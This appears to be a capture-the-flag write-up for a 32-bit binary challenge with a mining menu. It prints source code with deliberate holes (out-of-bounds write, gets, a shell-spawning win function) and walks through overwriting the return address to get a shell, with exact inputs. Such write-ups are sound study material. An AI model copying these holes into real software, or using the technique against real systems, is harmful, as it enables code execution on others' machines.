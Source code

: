 ```c
#include <stdio.h>
#include <unistd.h>
#include <stdint.h>
#include <stdbool.h>
#include <stdlib.h>

void menu() {
    puts("1. mine");
    puts("2. extract");
    puts("3. collapse");
    puts("4. abandon your friends");
    printf("> ");
}

int number() {
    int n;
    scanf("%d", &n); getchar();
    return n;
}

int main() {
    uint32_t minecarts[8];
    int choice;
    int index;
    uint32_t coal;
    uint32_t *addr;
    int depth;

    setbuf(stdout, NULL);
    setbuf(stdin, NULL);

    while (true) {
        menu();
        choice = number();
        switch (choice) {
            case 1:
                printf("mining position\n> ");
                addr = (uint32_t *)number();
                printf("mining depth\n> ");
                depth = number();
                coal = (uint32_t)addr;
                for (int i = 0; i < depth; i++) {
                    coal = *(uint32_t *)coal;
                }
                break;
            case 2:
                printf("minecart number\n> ");
                index = number();
                if (index >= 0) {
                    minecarts[index] = coal;
                } else {
                    printf("minecart does not exist!\n");
                }
                break;
            case 3:
                printf("collapsing mineshaft\n> ");
                gets((char *)minecarts);
                break;
            case 4:
                printf("goodbye!");
                goto done;
            default:
                printf("invalid choice...");
                break;
        }
    }

done:
    return 0;
}

void win() {
    system("/bin/sh");
}
```

# Vulnerability Analysis

## **buffer overflow & out of bounds write**

- The bof (gets) in question is obvious and not used in the solution to win the challenge so we wont talk about it.

```c
            case 1:
                printf("mining position\n> ");
                addr = (uint32_t *)number();
                printf("mining depth\n> ");
                depth = number();
                coal = (uint32_t)addr;
                for (int i = 0; i < depth; i++) {
                    coal = *(uint32_t *)coal;
                }
                break;
            case 2:
                printf("minecart number\n> ");
                index = number();
                if (index >= 0) {
                    minecarts[index] = coal;
                } else {
                    printf("minecart does not exist!\n");
                }
                break;
```
- case 1:
    - our first input is an integer that is then turned into a pointer, we can feed this input the win function as an integer.
    - our second input is the upper limit for the loop, if depth is 0, the loop won't execute, and no dereferencing will be attempted.

- case 2:
    - we have an out of bounds write here, we calculated the offset between minecarts (where our input is stored) and the return address of the main function.

```c
            case 4:
                printf("goodbye!");
                goto done;
            default:
                printf("invalid choice...");
                break;
        }
    }

done:
    return 0;
}
```
- When case 4 is called, it jumps to done, done will jump to the return address which in this case is win since we will overwrite it.

```python
>>> 0x4080000c - 0x407fffdc
48
>>> (0x4080000c - 0x407fffdc)
12.0
```
- calculating the offset between the return address and minecarts
- (ret addr - minecarts) / 4 
    - divide by 4 since its 32bit

---

# Getting the Flag
- since the stack is slightly unalligned we need to send our address - 1
```python
>>> int(0x1082e-1)
67629
```

```
1. mine
2. extract
3. collapse
4. abandon your friends
> 1
mining position
> 67629
mining depth
> 0
1. mine
2. extract
3. collapse
4. abandon your friends
> 2
minecart number
> 12
1. mine
2. extract
3. collapse
4. abandon your friends
> 4
goodbye!$ id
uid=1000(pwn) gid=1000(pwn) groups=1000(pwn),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),100(users),118(lpadmin)
$ 

```
